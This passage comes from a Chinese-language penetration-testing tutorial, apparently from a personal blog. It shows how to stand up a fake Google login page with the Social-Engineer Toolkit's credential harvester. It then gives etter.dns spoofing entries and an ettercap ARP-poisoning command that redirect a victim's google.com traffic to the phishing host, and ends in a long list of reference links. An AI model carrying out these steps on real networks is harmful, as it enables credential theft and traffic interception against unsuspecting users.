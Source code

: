 选择第三个选项，窃取凭证。

```
1) Web Templates  // 使用预定义的网站模板
2) Site Cloner    // 克隆网页
3) Custom Import  // 从指定目录导入网站
```

在此，为了方便，我们直接选择 1，使用 SET 中内置的网站模板来进行实验。

```
set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.1.107]:
```

此处注意了，它这里会使用你的默认 ip，也就是你的第一个 ip：

![][24]

如果你使用的是双网卡，你想渗透其他内网网段的主机，可以先回车，回车后看到了提示：

![][25]

新建一个终端，编辑下`/etc/setoolkit/set.config`这个文件，把网卡改一下就 OK 了：

![][26]

选择 2，使用 Google 登录页面作为钓鱼网站：

![][27]

当出现

```
[*] Harvester is ready, have victim browse to your site.
```

这一行的时候表示就可以开始钓鱼了，此时在受害者的电脑上打开我们攻击机的 ip 就是我们的钓鱼 google 界面：

![][28]

同时，SET 的控制台打印出来一条访问请求记录：

![][29]

但是，我们这个也太明显了吧，谁不知道 192.168.\*是内网 ip，所以我们配合 Ettercap 一起使用：

将以下内容添加到`/etc/ettercap/etter.dns`中

```
google.com       A      192.168.1.107
*.google.com     A      192.168.1.107
www.google.com   PTR    192.168.1.107
```

![][30]

然后执行 ettercap：

```
ettercap -TqM ARP -P dns_spoof /192.168.1.106///
```


[1]: https://www.freebuf.com/column/179597.html
[2]: https://www.freebuf.com/articles/network/183692.html
[3]: https://www.freebuf.com/company-information/194558.html
[4]: https://blog.csdn.net/zpy1998zpy/article/details/81038016
[5]: https://www.freebuf.com/column/174713.html
[6]: https://www.freebuf.com/articles/web/190947.html
[7]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_105813.png
[8]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_131910.png
[9]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_110038.png
[10]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190215_132223.png
[11]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190215_132555.png
[12]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_110341.png
[13]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_110529.png
[14]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190215_133129.png
[15]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190215_133247.png
[16]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190215_133405.png
[17]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190215_134745.png
[18]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_110721.png
[19]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_111143.png
[20]: https://github.com/thelinuxchoice/blackeye
[21]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190215_142229.png
[22]: https://www.freebuf.com/sectool/99607.html
[23]: https://www.freebuf.com/articles/network/183692.html
[24]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_111546.png
[25]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_111737.png
[26]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190215_144520.png
[27]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190215_145243.png
[28]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_112144.png
[29]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_112221.png
[30]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_112611.png
[31]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_114106.png
[32]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_114354.png
[33]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190215_172938.png
[34]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_114826.png
[35]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_115036.png
[36]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_120727.png
[37]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_121150.png
[38]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_095058.png
[39]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_121350.png
[40]: https://www.winpcap.org/install/
[41]: https://nmap.org/npcap/dist/npcap-0.99-r9.exe
[42]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190217_173819.png
[43]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190217_174017.png
[44]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_121540.png
[45]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_121848.png
[46]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_121930.png
[47]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_103057.png
[48]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_125447.png
[49]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_140746.png
[50]: https://img.soapffz.com/archives_img/2019/02/15/archives_20190216_140552.png